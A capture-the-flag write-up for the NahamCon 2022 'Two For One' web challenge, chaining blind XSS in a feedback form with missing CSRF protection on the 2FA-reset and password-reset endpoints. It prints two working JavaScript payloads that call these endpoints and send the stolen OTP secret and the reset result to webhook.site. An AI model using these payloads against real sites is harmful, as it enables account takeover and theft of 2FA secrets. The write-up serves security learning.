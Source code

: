 # NahamCon CTF 2022 - Two For One
category: Web - Hard

## solution

at the first page there is a login and signup page

![Screenshot_2022-05-01 Fort Knox](https://user-images.githubusercontent.com/83473054/166118848-40535718-4ce9-400b-ab17-88d772683333.png)

in the signup page we must get the google auth token cuz we need it for login and other stuffs.
after login we could see that we are able to create secrets

![Screenshot_2022-05-01 Fort Knox(1)](https://user-images.githubusercontent.com/83473054/166119065-46e8ce6b-30f7-4fda-8718-813b23de13ef.png)

but the goal is not creating notes, we have to somehow read admin notes
so we will go to settings

in settings we could see Feedback part which after some fuzzing we found it's vulnerable to blind xss

![Screenshot_2022-05-01 Fort Knox(2)](https://user-images.githubusercontent.com/83473054/166119184-474ff52a-dde4-4a06-a734-c0aa0c17b862.png)

but there are two more part in settings

## reset password
![Screenshot_2022-05-01 Fort Knox(3)](https://user-images.githubusercontent.com/83473054/166119229-3f7a0284-1bba-400d-8943-519264db6876.png)
and
## reset 2FA
![Screenshot_2022-05-01 Fort Knox(4)](https://user-images.githubusercontent.com/83473054/166119240-162ad12a-7247-4df5-88a2-a59fe2be559f.png)


we found there is no csrf for reset password and reset 2FA, but reset password need to confirming 2FA. so first of all we have to somehow hijack the google authentication token.

we could reset google auth with POST request to this endpoint ```/reset2fa```

I wrote below payload to hijack the result of  ```/reset2fa``` and send it to our webhook

```js
<script>
    xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://challenge.nahamcon.com:31170/reset2fa', false);
    xhr.send();
    document.location='https://webhook.site/x4xx4-xxx-xxx-xxxx-xxxx?otp='+xhr.response;
</script>
```
## result 
![Screenshot_2022-05-01 Webhook site - Test, process and transform emails and HTTP requests](https://user-images.githubusercontent.com/83473054/166119457-2e486284-6bf5-49c3-91c4-304fa9f91cf4.png)

now we have secret token. we should convert it to QR code
![Screenshot_2022-05-01_05_13_51](https://user-images.githubusercontent.com/83473054/166119519-e1885483-67f6-4023-9052-cad3cf9c0dc1.png)

got it and scaned with my phone, now I have the google auth

the next step is reseting admin password.

I wrote below payload to reset admin password

```js
<script>
    xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://challenge.nahamcon.com:31170/reset_password', false);
    xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
    xhr.send(JSON.stringify({"otp":"068728","password":"a","password2":"a"}));
    document.location='https://webhook.site/3xxx4-xxxx-xxxxxx-xxxxx-xxxxx?res='+xhr.response;
</script>
```

and got ```{"success":true}``` in my webhook response.

now I can login with admin creds which it's username is ```admin``` and password is ```a``` (what we changed) and the google auth.

logged in and we are able to read the flag from admin's secrets

![Screenshot_2022-05-01 Fort Knox(5)](https://user-images.githubusercontent.com/83473054/166119740-71f6c15a-9298-4b4a-bbad-bdb78ba0c352.png)


Really interesting challnege . thanks @congon4tor#2334


